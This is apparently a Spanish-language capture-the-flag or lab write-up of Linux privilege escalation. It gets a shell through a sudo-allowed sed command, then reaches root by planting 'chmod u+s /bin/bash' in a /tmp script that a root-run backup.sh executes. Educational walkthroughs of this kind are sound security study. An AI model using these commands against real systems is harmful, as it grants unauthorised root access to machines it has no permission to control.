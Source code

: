 **Hallazgos Clave:**
- Binario con privilegios: `[ /bin/sed ]`
- Credenciales de usuario: `[ andy ]:[]`

### Explotacion de Privilegios

###### Usuario `[ lucas ]`:

```bash
# Comando para escalar al usuario: ( root )
sudo -u andy sed -n '1e exec bash 1>&0' /etc/hosts
```

###### Usuario `[ andy ]`:
Ahora listando los permisos **SUID**
```bash
find / -perm -4000 2>/dev/null
```

Tenemos este binario:
```bash
/usr/local/bin/backup.sh
```

Si listamos el contenido de este script:
```bash
cat /usr/local/bin/backup.sh
```

```bash
#!/bin/bash
# backup.sh

# Script de backup vulnerable

# Copiar archivos al directorio compartido
cp -r /var/www/html /backup

# Intentar ejecutar un script si existe
if [ -f /tmp/cron-vuln.sh ]; then
    /bin/bash /tmp/cron-vuln.sh
fi
```

**Nota** Esta intentado ejecutar el script **( cron-vuln.sh )** pero como no existe, Nos aprovechamos de eso para crearlo con instrucciones malciosas que nos permitan migrar a **root**
```bash
chmod u+s /bin/bash
```

Ya con las instrucciones cargadas para otorgar permisos **SUID** a la bash, Procedemos a ejecutarlo:
```bash
/usr/local/bin/backup.sh
```

De igual manero ganamos acceso como root con este otro binario:
```bash
# Comando para escalar al usuario: ( root )
/usr/local/bin/privileged_exec

Running with effective UID: 0
```

---